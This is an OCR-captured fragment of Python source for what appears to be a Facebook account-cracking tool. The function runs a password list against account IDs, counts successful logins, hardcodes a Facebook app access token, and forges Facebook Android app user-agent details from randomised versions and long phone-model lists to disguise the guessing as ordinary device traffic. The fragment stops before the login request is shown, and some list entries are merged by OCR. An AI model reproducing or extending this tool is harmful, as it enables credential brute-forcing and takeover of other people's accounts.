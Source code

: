 def rndm(ids,passlist):
        global loop
        global oks
        sys.stdout.write('\r\r\033[1;37m [HEROES] %s|\033[1;37mOK:-%s \033[1;37m'%(loop,len(oks)));sys.stdout.flush()
        try:
                for pas in passlist:
                        accessToken = '350685531728|62f8ce9f74b12f84c123cc23437a4a32'
                        fbav = f'{random.randint(111,999)}.0.0.{random.randint(11,99)}.{random.randint(111,999)}'
                        fbbv = str(random.randint(111111111,999999999))
                        android_version = device['android_version']
                        model = device['model']
                        build = device['build']
                        fblc = device['fblc']
                        fbcr = sim_id
                        fbmf = device['fbmf']
                        fbbd = device['fbbd']
                        fbdv = device['fbdv']
                        fbsv = device['fbsv']
                        fbca = device['fbca']
                        fbdm = device['fbdm']
                        fbfw = '1'
                        fbrv = '0'
                        fban = 'FB4A'
                        fbpn = 'com.facebook.katana'
                        en = random.choice(['en_US','en_GB'])
                        motorola= random.choice(['M Bot 54', 'M Bot 60', 'M1', 'M3', 'M3s', 'M5 Lite', 'M6 Note', 'Magic', 'Maimang 5', 'Mate 10 Lite Dual SIM', 'Mate 20 X (China)', 'Mate 8', 'MB526', 'Medias X', 'MI 2', 'MI 3W', 'Mi 4 LTE', 'MI 4i', 'MI 5', 'MI 5X', 'Mi A1', 'Mi Max', 'Mi Max 2', 'Mi Mix 2', 'Milestone', 'Miracle', 'Moment (Sprint)', 'Monza', 'Motion Plus', 'Moto C', 'Moto E2 (4G LTE)', 'Moto E3 Power', 'Moto E4', 'Moto E4 Plus', 'Moto E5', 'Moto E5 Plus', 'Moto G', 'Moto G 2nd Gen', 'Moto G Play', 'Moto G3', 'Moto G3 Turbo Edition', 'Moto G4', 'Moto G5 Plus', 'Moto G5s', 'Moto G5s Plus', 'Moto G6', 'Moto X', 'Moto X 2nd Gen (AT&T)', 'Moto Z', 'Multipad 2 Ultra Duo 8.0 3G', 'MultiPhone 3350 Duo', 'MultiPhone 4044 Duo', 'MultiPhone 5504 DUO', 'Multiphone 7600 Duo', 'MX2', 'MX380', 'MX5'])
                        mmp = random.choice(['13 Pro','Black Shark','Black Shark 2','Black Shark 3','Black Shark 3S','Black Shark 4','Black Shark 4 Pro','Black Shark 5','Black Shark 5 Pro','Black Shark Helo','Civi','Civi 2','Hongmi','Hongmi 1S','Hongmi 2','Hongmi 2 3G','Hongmi 2 4G','Hongmi 4G','Hongmi Note 1TD','Mi Box 4','Mi Cancro','Mi CC 9','Mi CC 9 Pro','Mi CC 9e','Mi CC9','Mi Laser Projector 150','Mi Max','Mi Max 2','Mi Max 3','Mi MAX2','Mi Max3','Mi Mix','Mi Mix 2','Mi Mix 2S','Mi Mix 3','Mi Mix 3 5G','Mi Mix 4','Mi Mix Fold','Mi Note 10','Mi Note 10 Lite','Mi Note 10 Pro','Mi Note 11','Mi Note 2','Mi Note 3','Mi Note 8','Mi Note LTE','Mi Note Pro','Mi Note10','Mi Note5','Mi One','Mi One C1','Mi One Plus','Mi Pad','Mi Pad 2','Mi Pad 3','Mi Pad 4','Mi Pad 4 Plus','Mi Pad 5','Mi Pad 5 Pro','Mi Pad 5 Pro 5G','Mi Pad4','Mi Pad5','Mi Play','Mi XL','Mi5','MiTV 4A','MiTV 4A Pro','MiTV 4C','MiTV 4I','MiTV 4S','MiTV 4X','MiTV P1','MiTV Q1','MiTV Stick','MiTV Stick 4K','Mix Fold 2','MT6765 G Series','Note 12 Pro','Pad 6 Pro','Pocophone F1','Qin 1s+','Qin 2','Qin 2 Pro','Redmi 11','Redmi 12','Redmi 2','Redmi 3','Redmi 4','Redmi 5','Redmi 6','Redmi 7','Redmi 8','Redmi 9','Redmi A1','Redmi A2','Redmi A3','Redmi K30','Redmi K40','Redmi K50','Redmi K60','Redmi note','Redmi Note 1','Redmi Note 10Redmi Note 11','Redmi Note 12','Redmi Note 12T','Redmi Note 13','Redmi Note 15 Pro','Redmi Note 2','Redmi Note 3','Redmi Note 4','Redmi Note 5','Redmi Note 5 Pro','Redmi Note 6','Redmi Note 7','Redmi Note 7 Pro','Redmi Note 8 Pro','Redmi Note 8T','Redmi Note 9','Redmi Note 9 5G','Redmi Note 9 Pro','Redmi Note 9 Pro 5G','Redmi Note 9 Pro Max','Redmi Note 9S','Redmi Note 9T','Redmi Note 9T 5G','Redmi Note Prime','Redmi Note10','Redmi Note10T','Redmi Note7','Redmi Note8','Redmi Note8T','Redmi Note9','Redmi Pad','Redmi Pro','Redmi S2','Redmi X','Redmi Y1','Redmi Y1 Lite','Redmi Y2','Redmi Y3','Redmi 2', 'Redmi 3', 'Redmi 3S', 'Redmi 4', 'Redmi 4A', 'Redmi 4X', 'Redmi 5', 'Redmi 5 Plus', 'Redmi 5A', 'Redmi 6', 'Redmi Note', 'Redmi Note 3', 'Redmi Note 4', 'Redmi Note 4X', 'Redmi Note 5', 'Redmi Note 5 Pro', 'Redmi Note 5A', 'Redmi Note 5A Prime', 'Redmi S2', 'Redmi Y1', 'Redmi Y1 Lite', 'Redmi Y2', 'Rex 60', 'Rex 80', 'Rhyme', 'RM-560', 'Ruby'])
                        mmm = random.choice(['Ruby', 'V10 (AT&T)', 'V10 (T-Mobile)', 'V10 (Verizon)', 'V1Max', 'V20', 'V20 (AT&T)', 'V20 (Sprint)', 'V20 (T-Mobile)', 'V20 (Verizon)', 'V3', 'V5', 'V5s', 'V7', 'V7 Plus', 'V808', 'V9', 'Valencia', 'Vdeo 2', 'Vega Iron 2 WiFi', 'Vibe K5', 'Vibe K5 Note', 'Vibe K5 Plus Dual SIM', 'Vibe X', 'Vibe Z', 'Vision', 'Vision 3 Dual SIM', 'Volt LS740', 'VR Bot 552', 'VX5500', 'Y21', 'Y21L', 'Y28', 'Y3 (2018)', 'Y336-U02', 'Y5 Dual SIM (2017)', 'Y5 II', 'Y5 Prime 2018 Dual SIM', 'Y51', 'Y51L', 'Y55L', 'Y6 (2018)', 'Y6 Dual SIM (2018)', 'Y6 Prime (2018)', 'Y65', 'Y66', 'Y69', 'Y71', 'Y81', 'Y83', 'Yota Phone 2', 'YP-GI1'])